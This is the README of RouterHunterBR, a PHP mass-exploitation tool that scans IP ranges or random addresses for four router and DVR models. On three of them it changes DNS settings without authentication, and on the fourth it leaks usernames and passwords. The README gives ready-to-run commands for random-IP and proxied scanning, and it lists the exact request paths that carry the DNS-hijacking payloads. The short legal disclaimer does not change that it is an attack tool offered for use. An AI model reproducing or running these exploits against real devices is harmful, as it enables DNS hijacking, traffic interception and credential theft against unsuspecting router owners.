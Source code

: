 # RouterHunterBR
TOOL - Unauthenticated Remote DNS change/ users & passwords.

```
Studies and analysis tool vulnerabilities
[!] legal disclaimer: Usage of RouterHunterBR for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
```

 * Script exploit developed by INURL - BRAZIL
 * Script Name: SCANNER RouterHunterBR 1.0
 * TIPE: TOOL - Unauthenticated Remote DNS change/ users & passwords 
 * AUTOR*: Cleiton Pinheiro / NICK: GoogleINURL
 * AUTOR: Jhonathan davi / NICK: Jhoon
 * EMAIL*: inurllbr@gmail.com
 * Blog*: http://blog.inurl.com.br
 * Twitter*: https://twitter.com/googleinurl
 * Fanpage*: https://fb.com/InurlBrasil
 * GIT*: https://github.com/googleinurl
 * PASTEBIN*: http://pastebin.com/u/googleinurl
 * YOUTUBE* https://www.youtube.com/channel/UCFP-WEzs5Ikdqw0HBLImGGA
 * PACKETSTORMSECURITY:* http://packetstormsecurity.com/user/googleinurl/


- Description:
------
  The script explores four vulnerabilities in routers
 * 01 - Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35995/

 * 02 - D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35917/

 * 03 - LG DVR LE6016D / Unauthenticated users/passwords disclosure exploitit

  reference: http://www.exploit-db.com/exploits/36014/
  
 * 04 - D-Link DSL-2640B Unauthenticated Remote DNS Change Exploitx
  
  reference: http://1337day.com/exploit/23302/ 

- Execute:
------
```
  Simple search:   php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt

  Set IPS random:  php RouterHunterBR.php --rand --limit-ip 200 --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set source file: php RouterHunterBR.php --file ips.txt --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set proxy:       php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt --proxy 'localhost:8118'
  
  Proxy format:
   --proxy 'localhost:8118'
   --proxy 'socks5://googleinurl@localhost:9050'
   --proxy 'http://admin:12334@172.16.0.90:8080'
  
```

- Dependencies:
------
```
  sudo apt-get install curl libcurl3 libcurl3-dev php5 php5-cli php5-curl
```
- EDITING TO ADD NEW EXPLOITS GETS:
------
```
TO DEFINE MORE EXPLOITS GET:
EX: $params['exploit_model']['model_name'] = 'file_exploit.php';
$params['exploit_model']['model_001'] = '/file001CGI.cgi';
$params['exploit_model']['model_002'] = '/file001php.php';
$params['exploit_model']['model_003'] = '/file001.html';

#DEFINITION OF EXPLOITS
LINE 99 $params['exploit_model']['Shuttle_Tech_ADSL_Modem_Router_915_WM'] = "/dnscfg.cgi?dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}&dnsDynamic=0&dnsRefresh=1";
LINE 100 $params['exploit_model']['D_Link_DSL_2740R'] = "/dns_1?Enable_DNSFollowing=1&dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}";
LINE 101 $params['exploit_model']['D_Link_DSL_2640B'] = "/ddnsmngr.cmd?action=apply&service=0&enbl=0&dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}&dnsDynamic=0&dnsRefresh=1&dns6Type=DHCP";
LINE 102 $params['exploit_model']['LG_DVR_LE6016D'] = "/dvr/wwwroot/user.cgi";

```

